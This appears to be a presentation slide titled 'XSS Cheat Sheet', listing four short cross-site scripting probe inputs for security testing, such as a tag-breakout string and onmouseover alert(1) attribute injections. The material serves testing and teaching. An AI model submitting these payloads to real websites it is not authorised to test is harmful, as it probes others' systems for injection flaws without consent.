

# XSS Cheat Sheet
Here are a couple quick things to try when testing for XSS:

“><h1>test</h1>
‘+alert(1)+’
“onmouseover=”alert(1)
http://”onmouseover=”alert(1)